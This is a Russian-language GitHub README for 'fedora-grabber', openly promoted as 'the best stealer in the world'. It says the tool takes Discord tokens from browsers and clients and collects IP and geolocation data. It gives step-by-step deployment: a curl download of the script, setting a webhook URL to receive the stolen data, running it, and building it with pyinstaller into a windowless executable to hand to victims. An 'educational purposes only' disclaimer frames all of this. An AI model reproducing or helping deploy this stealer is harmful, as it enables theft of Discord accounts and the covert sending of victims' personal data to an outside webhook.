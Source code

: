 # fedora-grabber
Токен стиллер &amp; айпи &amp; ОЧЕНЬ МНОГО ИНФЫ! Лучший стиллер в мире.

# Дисклеймер
Я не виноват, если вы используете это.

Эта программа была сделана **ТОЛЬКО В ОБРАЗОВАТЕЛЬНЫХ ЦЕЛЯХ.**

Я не виноват, если вы злоупотребите этим "*вирусом*".

И не надо потом говорить "[Ой-ой-ой, я нажил себе проблем 😿](https://github.com/GlUTEN-BASH/discord_crasher)".
# Что он может делать?
- [x] Работает на всех платформах
- [x] Стаскивает токены с браузеров и клиентов Discord.
- [x] Получает IP клиента, точную (нет) геолокацию и ещё ОЧЕНЬ. МНОГО. ИНФОРМАЦИИ.
# Минусы
- [x] Требуется библиотеки "`re`", "`getpass`", "`requests`", "`discord`", "`platform`", "`datetime`"
- [x] Много не очень понятного кода (может вы и поймёте :))
# Установка
Откройте терминал/"cmd" (так в виндах называется)

и пропишите / [копи-пастните](https://www.google.com/search?q=Вырезать,+копировать,+вставить&client=Amog+OS) эти команды:
```bash
curl https://raw.githubusercontent.com/EZRAIDv2/fedora-grabber/main/src/fedora-grabber.py?token=GHSAT0AAAAAABR357CFMB6RA5NHBAFT3H4CYQWEJRA > fedora-grabber.py
```
Перед прописыванием следующей команды отредактируйте файл так, чтобы в начале было написан URL вебхука.

Пример:
```text
#!/usr/bin/python3
WEBHOOK_URL = 'Тут будет вебхук URL'
```

Теперь идём дальше.
```bash
python3 fedora-grabber.py
```
Готово! Вы отправили информацию на вебхук.

Вы можете скомпилировать скрипт при помощи `pyinstaller`:
```bash
pip install pyinstaller
pyinstaller --onefile --noconsole fedora-grabber.py
```

Готово, вы скомпилировали скрипт в "`.exe`" или в эльф-файл или ещё что-то,

смотря какая у вас платформа.
